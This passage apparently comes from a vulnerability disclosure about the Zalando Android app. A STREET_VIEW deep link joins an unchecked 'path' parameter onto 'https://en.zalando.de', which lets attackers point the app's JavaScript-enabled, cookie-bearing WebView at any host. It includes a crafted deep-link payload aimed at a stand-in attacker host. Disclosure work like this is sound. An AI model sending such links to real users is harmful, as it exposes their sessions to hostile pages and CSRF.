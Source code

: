 For a Deep-Link-host-component of `STREET_VIEW` the app logic creates an Intent for the Activity `de.zalando.mobile.ui.webview.WebViewWeaveActivity`. The intent carries the following Extras:

- `intent_extra_title`: title which should be shown by the activity (`"Street it all"` in this case )
- `show_street_view`: boolean, set to `true`
- `intent_extra_url`: URL for a web page, which should be displayed by the activity. The web page itself gets rendered by `de.zalando.mobile.ui.webview.ZalandoWebView` (which inherits from `android.webkit.WebView`)

The interesting part, of course, is the URL string which ends up in `intent_extra_url`, which gets requested and rendered by the `ZalandoWebView`. This value gets constructed by a concatenation of the string `"https://en.zalando.de"` and the value **of the query parameter `path` from the Deep Link.**

So for the Deep Link `zalando://STREET_VIEW?path=/index.html` the resulting `intent_extra_url` would be constructeded as: 

```
https://en.zalando.de/index.html
```

This causes an issue as the `/`, which serves as delimiter between the host-component and the path-component of the resulting URL, **is expected to be part of the value of the query parameter `path`. Omitting this delimiting character, leads to unexpected results.

For example a Deep Link `zalando://STREET_VIEW?path=foo` would get translated to the following URL, with an invalid hostname:

```
https://en.zalando.defoo
```

This misbehavior is exploitable. An attacker could craft ,malicious Deep Links with arbitrary hostnames, paths and queries. The only thing which could not be manipulated is the scheme (`https`) of the resulting URLs. Moreover, the WebView which renders the URLs has JavaScript enabled and obviously has cookies stored for relevant `*.zalando.de` domains. This widens the attack surface for JavaScript-based CSRF attacks.

*Note on CSRF: If an attacker enforces requests to domains with malicious JavaScripts based on the Deep-Link-issue, the JS code would not be able to collect HTTP responses. This is because the Same Origin Policy would get violated. Yet, even if no response could be fetched, the respective XHR request could be send towards *.zalando.de (including stored HTTP-only cookies). It took no further efforts, to work out CSRF examples, in order to increase the severity of the report. The possibilities should be obvious.*

At this point, I want to give two examples on how to exploit this logical flaw, to request attacker controlled URLs from within the Zalando App (internal WebView).

### 1.1 Example 1

```
zalando://STREET_VIEW?path=.attacker.host/arbitrary/path?arbitrary=param
```

The Deep Link above would result in the following URL, which would get requested and rendered by `ZalandoWebView`:

